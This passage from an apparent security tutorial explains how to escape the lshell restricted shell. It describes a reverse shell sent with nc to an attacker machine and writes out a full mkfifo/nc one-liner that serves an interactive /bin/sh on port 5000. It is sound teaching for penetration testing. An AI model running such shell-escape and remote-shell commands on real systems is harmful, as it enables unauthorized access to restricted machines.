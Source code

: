 ![Imagem 19]({{ site.url }}/assets/images/posts/shellescaping/image19.png)

After hitting ENTER our `pinfo` screen went black, which means the command was probably executed without errors.

Let’s have a look at our attackers client on port 5000:

![Imagem 20]({{ site.url }}/assets/images/posts/shellescaping/image20.png)

We can see a connection coming from our victim. Let’s issue some commands on the attacker side and see what we can get:

![Imagem 21]({{ site.url }}/assets/images/posts/shellescaping/image21.png)

As you can see, we successfully bypassed `lshell` command list restriction executing a connection to our attacker machine and sending to it the victim’s `/bin/bash` shell that we were not allowed to execute before.

Just as a hint, `nc` is what we call a “Network Swiss Army Knife” and is installed by default in many different Linux distributions. It is not unusual for administrators with some security knowledge to uninstall it or enforce restrictions so it can’t be used by general users besides root. Another drawback of `nc` is that the BSD version, if in use, has no -e/-c flags, so we would never be able to inject a shell using it.

Another way to get a reverse shell with `nc` is by adding some creativity and knowledge of Linux operating systems internals with other tools and pipes already provided by Linux systems out of the box. 

On the victim’s machine we will execute the following command: 

```
$ rm -f /tmp/f; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 192.168.0.21 5000 > /tmp/f”
```

Analyzing this command in parts (separated by semicolons), the first `“rm -f /tmp/f”` is used to force delete the `“/tmp/f”` if it exists. 
The second command `“mkfifo /tmp/f”` is creating the same file as a fifo file. Fifo (First-In First-Out) is a special type of file, similar to a pipe, it can be opened by multiple processes for reading and writing. We are going to use this file as a pipe to exchange data between our interactive shell and nc.

The third command `“cat /tmp/f | /bin/sh -i 2>&1 | nc -l 192.168.0.21 5000 > /tmp/f”` does a lot of things. First it opens the fifo file we created then pipe it’s contents to a shell with interactive mode on (`/bin/sh -i`), also redirecting any error output to the standard output (`2>&1`). Right after that it’s piping all the results, as a reverse shell, to victim nc listening on victim’s IP. Now attacker’s machine don’t need to listen to a incoming shell because we made the victim listen for a shell instead. Now from the attacker machine we try to connect to the victim on port 5000, and we get our shell.

This kind of FIFO shell is very tricky, very verbose, error prone and little bit harder to run from injected shellcode, but it’s yet another option. Remember that this kind of reverse shell technique will only work if the restricted shell allows redirect and escape characters.

4.Console Browsers

You might be familiar with some Linux console browsers around, such as `“links”`, `“lynx”` and `“elinks”`. Browsers are a very good option for escaping to other commands and shells. 
